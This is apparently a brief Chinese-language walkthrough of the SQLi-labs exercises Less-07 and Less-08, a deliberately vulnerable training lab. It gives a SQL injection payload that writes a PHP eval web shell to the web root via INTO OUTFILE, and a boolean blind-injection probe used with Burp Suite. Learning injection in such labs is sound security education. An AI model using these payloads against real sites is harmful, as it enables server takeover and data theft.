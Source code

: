 ### **Less-07**

> **没有回显，没有报错**
>
> **经过代码审计**
>
> **字符型注入**
>
> **'))**
>
> **?id=2')) union select 1,"<?php@eval(\$_REQUEST[777])?>",3 into outfile "c:\\phpstudy\\www\\1.php"--+**

### **Less-08**

**没有回显，没有报错，有布尔类型状态**

**字符型注入**

**'**

**布尔盲注**

**半自动化注入**

**工具：****bp**

*******得到数据库名长度**

**?id=2' and length(database())=2 --+**

**抓包**

![img](72、sql注入/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80MzI1MjIwNA==,size_16,color_FFFFFF,t_70-20201112153611108.png)
